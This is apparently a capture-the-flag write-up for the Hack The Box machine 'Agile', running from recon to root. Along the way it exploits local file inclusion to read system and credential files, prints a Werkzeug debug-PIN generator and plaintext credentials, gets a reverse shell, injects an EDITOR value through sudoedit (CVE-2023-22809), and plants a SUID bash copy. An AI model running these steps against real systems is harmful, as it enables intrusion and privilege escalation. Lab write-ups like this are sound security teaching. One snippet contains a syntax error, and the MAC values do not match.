

# [Agile](https://app.hackthebox.com/machines/agile)

```bash
nmap -p- --min-rate 10000 10.10.11.203 -Pn 
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.203 -Pn
```


From nmap scan result, we can see that `superpass.htb` domain name is resolved into this ip address.Let's add this into `/etc/hosts` file for resolving purposes.


While we open web application, we see below page.


While we want to create account, we see below page.


Let's do `Directory Enumeration` via `gobuster` tool.
```bash
gobuster dir -u http://superpass.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```


I enumerate functions of this web application and find interesting endpoint `download` which wants `fn` parameter means `filename`.


I check `Local File Inclusion` payloads which reads `/etc/passwd` file.


While I want to read files which is not valid, it returns leakage of system `.py` files.


From here, I find interesting file `/app/app/superpass/views/vault_views.py` and try to read this via `LFI` vulnerability.


While I read source code, I find `IDOR` vulnerability for user that entered id is not checked by any authorization code.




Code which have `IDOR` vulnerability:

```python
@blueprint.get('/vault/row/<id>')
@response(template_file='vault/partials/password_row.html')
@login_required
def get_row(id):
    password = password_service.get_password_by_id(id, current_user.id)

    return {"p": password}
```


Let's fuzz `row` numbers via just adding integers.


It doesn't return any result.


Let's look at logging into `Flask` Debug Console called `Werkzeug`. For this I will use this [blog](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) of `Hacktricks` to get `RCE` from `LFI` vulnerability by reading sensitive files.


While I try to make access to `Werkzeug` console, I see authentication for `PIN`.


To find `correct PIN` number, we need below steps.

1. `probably_public_bits`:

    **username**: "www-data" => I find this value by reading `/proc/self/environ` via `LFI`.
    

    **modname**: "wsgi_app" => This is typically default value

    **class_name**: "Flask" => Generally resolves to `Flask`.

    **main app.py**: "/app/venv/lib/python3.10/site-packages/flask/app.py"   => Represents the full path to app.py within `Flask` directory.

    


Here's our `public` bits.

```bash
probably_public_bits = [
    'www-data',
    'wsgi_app',
    'Flask',(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py' 
]
```

2. `Private Bits`:

    **Server's MAC**: "00:50:56:b9:9e:ca" => For this, we need to read file `/proc/net/arp`.

    

    **Machine_id**: "ed5b159560f54721827644bc9b220d00superpass.service" => For this, we need to read file `/etc/machine-id`+`/proc/self/cgroup` file.

    


Here's our `private` bits.

```bash
private_bits = [
    '345052367029','ed5b159560f54721827644bc9b220d00superpass.service'
]
```


To find correct `PIN`, I need to use below `Python` script.

```python
import hashlib
from itertools import chain
probably_public_bits = [
 'www-data',# username
 'flask.app',# mod name
 'wsgi_app',# app name
 '/app/venv/lib/python3.10/site-packages/flask/app.py' # flask app.py
]

private_bits = [
 '345052368912',# MAC Address
 'ed5b159560f54721827644bc9b220d00superpass.service'# machine id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

**Reminder!** We need to change `hashing algorithm` due to algorithm which `Werkzeug` uses. For this, we need to read `/app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py` file.


While I run the script which finds `PIN` of `Werkzeug` module , it gives `488-280-364`.


Let's enter this number to `Werkzeug` console.


I enter `Python` reverse shell payload into here and got reverse shell.


While enumeration, I find database credentials as below.


I login into DB (mysql) and extracts username and password from `passwords` table.


corum: 5db7caa1d13cc37c9fc2

I login into machine via this credentials by using `ssh` command.


user.txt


While I running `netstat -ntpl` command, it returns that different and interesting ports.


I learn that port `41829` is used for `Chrome Debugger`, I guess that I can extract some credentials from here, that's why I make `Local Port Forwarding` to see this service on my attacker machine.

```bash
ssh -L 41829:localhost:41829 corum@superpass.htb
```


Then, I open `Chromimum` and enter this.


Now, I can get `edwards` credentials from here.


edwards: d07867c6267dcb5df0af


While I run `sudo -l` to look at privileges of this user as root, it says `sudoedit`.


I look at this binary on `Gtfobins` but finds nothing.


I searched publicly known exploit for this binary and find [CVE-2023-22809](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)


I check this vulnerability for target's `sudo` binary version and it returns impactable result.


While I upload `pspy` binary into machine and it says there's cronjob script called `test_and_update_.sh` . 


Let's read this.


So we need to open `vim` on this environment's editor, so that after we change `EDITOR` environment variable,we need to change `/app/config_test.json` file to add our malicious command.
```bash
export EDITOR='vim -- /app/venv/bin/activate'
sudo -u dev_admin sudoedit /app/config_test.json
```


I will add malicious command which makes copy of `/bin/bash` file and give `SUID` privilege to this copied `/bin/bash` file.
```bash
cp /bin/bash /tmp/dr4ks
chmod 4777 /tmp/dr4ks
```


Hola, I look at `/tmp` directory and my copied `/bin/bash` file is there, I run this via `-p` option to get root shell.

root.txt

